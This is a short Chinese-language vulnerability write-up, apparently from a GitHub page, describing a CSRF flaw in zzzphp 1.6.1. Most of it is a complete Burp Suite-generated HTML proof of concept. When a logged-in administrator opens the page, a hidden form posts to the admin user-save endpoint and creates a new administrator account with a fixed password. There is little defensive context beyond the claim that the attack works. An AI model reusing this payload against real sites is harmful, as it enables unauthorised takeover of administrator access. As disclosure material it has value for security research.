


### zzzphp

```
版本信息：1.6.1
```

#### CSRF添加管理员

火狐浏览器登录管理员，管理员在登录的情况下打开了攻击者构造的恶意文件

恶意文件

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.81.116:12001/admin/save.php?act=user" method="POST">
      <input type="hidden" name="uid" value="" />
      <input type="hidden" name="u&#95;gid" value="2" />
      <input type="hidden" name="face" value="&#47;plugins&#47;face&#47;face1&#46;png" />
      <input type="hidden" name="username" value="demo1" />
      <input type="hidden" name="password" value="123456" />
      <input type="hidden" name="truename" value="zs11" />
      <input type="hidden" name="mobile" value="18878787877" />
      <input type="hidden" name="question" value="" />
      <input type="hidden" name="answer" value="" />
      <input type="hidden" name="u&#95;desc" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

需要注意的是username和truename以及mobile不是重复使用



成功添加管理员并登录



